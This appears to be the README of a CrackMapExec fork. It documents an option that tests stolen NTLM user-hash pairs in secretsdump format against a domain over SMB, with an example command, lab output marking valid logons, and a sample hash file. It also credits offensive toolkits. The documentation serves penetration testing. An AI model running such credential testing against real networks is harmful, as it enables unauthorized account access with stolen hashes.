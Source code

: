 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)

# CrackMapExec fork to include features

## Features Added

### Test users and hash pairs from file(s) in "secretdump" format (-uH parameter)
The idea is to be able to take file(s) with multiple lines with useres and respective NTLM hashes in "secretdump" formatting, and test those using SMB for example againist another domain, or to retest these credentials obtained before to see if they are still working. The parameter -d <domain> is required.

** Example: **
```
(CrackMapExec) ~/t/CrackMapExec> cme smb 192.168.56.100 -d ramlab -uH hashes.txt
SMB         192.168.56.100  445    DC01             [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC01) (domain:ramlab) (signing:True) (SMBv1:True)
SMB         192.168.56.100  445    DC01             [-] ramlab\testuser22 4139c3eafc40242c4317313ea08d00b7 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\aaandy 4b291acc6fd3ae12f92ec3e587ab5abe STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\mnfffi 70e81ac21b3b2aedf0b4b601a6226d2d STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser3 4139c3eafc40242c4317313ea08d00b7 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
```

hashes.txt example file:
```
testuser22:1110:aad3b435b51404eeaad3b435b51404ee:4139c3eafc40242c4317313ea08d00b7:::
bbbbb\aaandy:1116:aad3b435b51404eeaad3b435b51404ee:4b291acc6fd3ae12f92ec3e587ab5abe:::
testuser2:1110:aad3b435b51404eeaad3b435b51404ee:85a165727adfbd6550626d515e4e1ef3:::
bbbbbb\mnfffi:1141:aad3b435b51404eeaad3b435b51404ee:70e81ac21b3b2aedf0b4b601a6226d2d:::
bbbbbb\btoaan:1148:aad3b435b51404eeaad3b435b51404ee:0c391a86d139b2a17cf3260a06387558:::
aaaaaa\testuser3:1111:aad3b435b51404eeaad3b435b51404ee:4139c3eafc40242c4317313ea08d00b7:::
testuser2:1110:aad3b435b51404eeaad3b435b51404ee:85a165727adfbd6550626d515e4e1ef3:::
bbbbbb\btoaan:1148:aad3b435b51404eeaad3b435b51404ee:0c391a86d139b2a17cf3260a06387558:::⏎   
```

# Acknowledgments
**(These are the people who did the hard stuff)**

Original repository:
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) :+1:

This project was originally inspired by:
- [smbmap](https://github.com/ShawnDEvans/smbmap)
- [CredCrack](https://github.com/gojhonny/CredCrack)
- [smbexec](https://github.com/pentestgeek/smbexec)

Unintentional contributors:

- The [Empire](https://github.com/PowerShellEmpire/Empire) project
- @T-S-A's [smbspider](https://github.com/T-S-A/smbspider) script
- @ConsciousHacker's partial Python port of Invoke-obfuscation from the [GreatSCT](https://github.com/GreatSCT/GreatSCT) project

This repository contains the following repositories as submodules:
- [Impacket](https://github.com/CoreSecurity/impacket)
- [Pywinrm](https://github.com/diyan/pywinrm)
- [Pywerview](https://github.com/the-useless-one/pywerview)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
- [Mimikittenz](https://github.com/putterpanda/mimikittenz)
- [NetRipper](https://github.com/NytroRST/NetRipper)
- [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
- [SessionGopher](https://github.com/fireeye/SessionGopher)
- [Mimipenguin](https://github.com/huntergregal/mimipenguin)

# Documentation, Tutorials, Examples
See the project's [wiki](https://github.com/byt3bl33d3r/CrackMapExec/wiki) for documentation and usage examples

# Installation
Please see the installation wiki page [here](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Installation).
